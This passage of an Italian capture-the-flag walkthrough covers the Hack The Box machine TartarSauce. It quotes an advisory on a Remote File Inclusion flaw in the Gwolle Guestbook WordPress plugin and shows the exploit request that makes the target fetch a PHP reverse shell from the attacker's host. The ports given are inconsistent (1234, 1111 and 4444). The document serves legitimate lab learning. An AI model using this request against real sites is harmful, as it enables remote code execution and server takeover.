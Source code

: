 ```text
-----------------------------------------------------------------------------------------------
High-Tech Bridge Security Research Lab discovered a critical Remote File Inclusion (RFI) in Gwolle Guestbook WordPress plugin, which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.

Successful exploitation of this vulnerability will lead to entire WordPress installation compromise, and may even lead to the entire web server compromise.
-----------------------------------------------------------------------------------------------
```

Quindi passo alla fase successiva.

## Exploitation

Scarico il [file](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) che mi permetterà di ottenere una reverse-shell e avvio un listener sulla porta 1234.

Avvio un server http sulla porta 1111, modifico l'url che mi permetterà di effettuare un RFI (Remote File Inclusion) e invio la richiesta:

```text
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.4:4444/
```

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Linux-Box/TartarSauce/tartarsauce-7.png" />
</p>

